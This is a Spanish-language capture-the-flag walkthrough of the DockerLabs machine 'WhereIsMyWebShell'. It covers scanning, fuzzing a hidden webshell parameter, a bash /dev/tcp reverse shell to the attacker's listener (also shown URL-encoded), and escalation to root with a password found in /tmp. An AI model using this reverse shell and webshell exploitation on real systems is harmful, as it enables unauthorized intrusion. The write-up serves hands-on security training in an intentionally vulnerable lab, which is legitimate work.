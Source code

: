 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WhereIsMyWebShell".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh whereismywebshell.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene unicamente un puerto abierto, el puerto 80 (HTTP):
```
Discovered open port 80/tcp on 172.17.0.2
```
Siendo asi, pasamos a introducir la direccion IP en el navegador para ver que obtenemos y vemos una pagina de una academia de ingles, donde vemos que al final hay un pequeño mensaje:
```
¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
De momento no tenemos mas informacion, por lo que vamos a hacer un poco de FUZZING WEB:
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
y obtenemos la siguiente informacion:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 622929 / 622932 (100.00%)
```
Probamos con la pagina "/warning.html" y vemos el siguiente mensaje por pantalla:
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
Tambien tenemos el "/shell.php" pero al colocarlo en el navegador, solo podemos ver una pagina en blanco.
Es momento de usar "wfuzz" para intentar buscar la palabra que deberiamos colocar detras de "/shell.php" y poder ejecutar comandos, por lo que escribimos:
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id" --hc 404 --hl 0 -t 50
```
Y tras un ratito nos encuentra la palabra "parameter" tal y como se puede observar abajo:
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                  =====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```
Probamos a poner "http://172.17.0.2/shell.php?parameter=id" y recibimos la siguiente respuesta por la web:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Con esto podemos ver que ya tenemos la ejecucion remota de comandos.
Bien, vamos a intentar hacer una reverse shell, por lo que con NETCAT nos pondremos a la escucha por el puerto 443, por ejemplo:
```
nc -nlvp 443
```
pero antes de nada, vamos a intentar pasar a formato web (urlcodear) el siguiente comando obtenido de la pagina "https://www.revshells.com/" para conseguir nuestra reverse:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/443 0>&1"
```
Para hacer esto, la propia pagina nos permite pasar dicho comando a formato "URL Encode", abajo a la derecha, y donde nos quedaria:
```
bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261"
```
Con esto hemos obtenido ya la reverse shell y con ello, el acceso a la maquina victima. De todas formas, ahora es momento de hacer un tratamiento de la tty, el cual, se puede hacer de dos maneras, pero en este caso usaremos el modo "clasico"
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@c306b3822817:/var/www/html$ 
```
Ahora, lo suyo seria ir a la carpeta "/temp" que nos decia la pagina principal de la academia en el mensajito de abajo del todo, para ver cual era ese "secretito".
```
www-data@c306b3822817:/var/www/html$ cd /tmp
```
Y al lanzar un "ls -la", vemos:
```
www-data@c306b3822817:/tmp$ ls -la

total 12
drwxrwxrwt 1 root root 4096 Jul 16 21:27 .
drwxr-xr-x 1 root root 4096 Jul 16 21:27 ..
-rw-r--r-- 1 root root   21 Apr 12 16:07 .secret.txt

www-data@c306b3822817:/tmp$ 
```
Es momento de hacer un "cat" a ver lo que hay en ".secret.txt":
```
www-data@c306b3822817:/tmp$ cat .secret.txt 
contraseñaderoot123

www-data@c306b3822817:/tmp$ 
```
Ya teniendo la contraseña, vemos que hemos conseguido acceso "root" al cambiar a dicho usuario tal y como se observa aqui abajo:
```
www-data@c306b3822817:/tmp$ su root
Password:       <==== Metemos la contraseña que habia en ".secret.txt"

root@c306b3822817:/tmp# whoami
root            <==== Vemos que somos finalmente "root"

root@c306b3822817:/tmp# 
```
Y con esto, la maquina estaria terminada :) !!

